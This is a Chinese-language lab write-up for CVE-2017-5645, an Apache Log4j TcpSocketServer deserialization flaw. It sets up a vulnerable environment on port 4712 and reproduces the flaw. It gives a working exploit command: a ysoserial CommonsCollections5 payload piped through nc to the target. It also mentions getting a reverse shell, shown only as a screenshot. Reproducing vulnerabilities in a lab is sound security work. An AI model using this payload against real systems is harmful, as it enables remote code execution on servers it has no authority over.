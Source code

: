 # CVE-2017-5645

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Apache Log4j Server 反序列化命令执行漏洞



## 0x01 漏洞简介

Apache Log4j是一个用于Java的日志记录库，其支持启动远程日志服务器。Apache Log4j 2.8.2之前的2.x版本中存在安全漏洞。攻击者可利用该漏洞执行任意代码。

## 0x02 影响范围

Apache Log4j 2.8.2之前的2.x版本

## 0x02 环境搭建

执行如下命令启动漏洞环境

```
docker compose up -d
```

环境启动后，将在4712端口开启一个TCPServer。

说一下，除了使用vulhub的docker镜像搭建环境外，我们下载了log4j的jar文件后可以直接在命令行启动这个TCPServer：`java -cp "log4j-api-2.8.1.jar:log4j-core-2.8.1.jar:jcommander-1.72.jar" org.apache.logging.log4j.core.net.server.TcpSocketServer`，无需使用vulhub和编写代码。

## 0x03 漏洞复现

我们使用ysoserial生成payload，然后直接发送给`your-ip:4712`端口即可。

```
java -jar ysoserial-master-v0.0.5-gb617b7b-16.jar CommonsCollections5 "touch /tmp/success" | nc your-ip 4712
```

然后执行`docker compose exec log4j bash`进入容器，可见 `/tmp/success` 已成功创建：

![image.png](image/image.png)

执行反弹shell的命令，成功弹回shell：

![image.png](image/image%201.png)